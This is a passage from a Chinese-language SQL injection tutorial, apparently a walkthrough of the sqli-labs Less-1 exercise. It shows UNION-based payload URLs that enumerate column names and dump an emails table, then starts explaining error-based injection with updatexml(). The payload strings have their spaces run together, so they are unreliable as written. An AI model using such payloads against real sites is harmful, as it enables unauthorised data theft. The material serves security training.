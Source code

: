 ## 第六步-爆列名

基于表名使用`column_name`爆出列名，此时数据源为`information_schema.columns`，位置在`table_name='表名'(记得给表名加单引号)`

最终构造 Payload 如下，可以获取到 id，email_id 两个字段

```
http://127.0.0.22/Less-1/?id=-1'unionselect1,2,group_concat(column_name)frominformation_schema.columnswheretable_name='emails'%23
```

![img](https://picx.zhimg.com/80/v2-d2a19a9f0114c523442b0a924d411cbd_1440w.webp)

## 第七步-爆信息

使用列名爆敏感信息，直接 from 表名即可，这里需要使用`group_concat(concat_ws())`实现数据的完整读取，`group_concat()`函数在前面几步就接触过，主要是使数据在一列中输出

这就带来了一个问题，如果直接把列放入`group_concat()`函数，列间的界限就不清晰了，`concat_ws()`就是为了区分列的界限所使用的，其语法如下：

```
concat_ws('字符',字段1,字段2,.....)
```

最终我们便可以构造出获取数据的 Payload：

```
http://127.0.0.22/Less-1/?id=-1'unionselect1,2,group_concat(concat_ws('-',id,email_id))fromemails%23
```

![img](https://picx.zhimg.com/80/v2-79003141a8b675db532ee9c85d5db67d_1440w.webp)

# 报错注入

报错注入的本质是使用一些指定的函数制造报错，从而从报错信息获得我们想要的内容，使用前提是**后台没有屏蔽数据库的报错信息，且报错信息会返回到前端，报错注入一般在无法确定显示位的时候使用**，我们先来了解一下报错注入的类型和会用到的函数

## XPath 导致的报错

`updatexml()`函数和`extractvalue()`函数都可以归类为是 XPath 格式不正确或缺失导致报错的函数

### updatexml() 函数

`updatexml()`函数本身是改变 XML 文档中符合条件的值，其语法如下：

```
updatexml(XML_document,XPath_string,new_value)
```

语法中使用到以下三个参数

- XML_document：XML 文档名称，使用 String 格式作为参数
- XPath_string：路径，XPath 格式，`updatexml()`函数如果**这项参数错误便会导致报错，我们主要利用的也是这个参数**
- new_value：替换后的值，使用 String 格式作为参数
